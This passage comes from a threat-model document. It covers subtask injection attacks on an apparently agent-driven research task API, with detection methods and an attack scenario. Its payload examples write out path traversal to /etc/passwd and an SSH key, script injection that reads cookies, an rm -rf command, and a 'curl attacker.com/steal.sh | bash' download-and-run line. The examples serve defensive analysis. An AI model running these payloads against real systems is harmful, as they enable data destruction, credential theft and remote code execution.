 **Detection Methods**:
- File integrity monitoring alerts
- Cryptographic signature verification failures
- Audit chain integrity check failures
- Suspicious file access pattern detection

---

#### THREAT-002: Subtask Injection Attacks
**Risk Level**: CRITICAL  
**CVSS Score**: 8.8  

**Description**: Malicious subtask data injection through API endpoints, potentially leading to code execution, data exfiltration, or privilege escalation.

**Attack Vectors**:
1. Malicious evidence file path injection
2. Success criteria manipulation
3. Metadata payload injection
4. Research data contamination

**Attack Scenario**:
```
1. Attacker obtains valid agent credentials
2. Creates research subtask with malicious evidence paths
3. Evidence paths include directory traversal (../../../etc/passwd)
4. System processes evidence files, accessing unauthorized data
5. Sensitive data exfiltrated through evidence retrieval API
```

**Payload Examples**:
```javascript
// Path Traversal
{
  evidence: {
    files: [
      "../../../etc/passwd",
      "../../../../Users/admin/.ssh/id_rsa",
      "../../database/config.json"
    ]
  }
}

// Script Injection
{
  metadata: {
    description: "<script>fetch('/admin/users').then(r=>r.text()).then(console.log)</script>",
    notes: "javascript:alert(document.cookie)"
  }
}

// Command Injection
{
  title: "; rm -rf /Users/jeremyparker/infinite-continue-stop-hook/; echo 'pwned'",
  description: "`curl attacker.com/steal.sh | bash`"
}
```
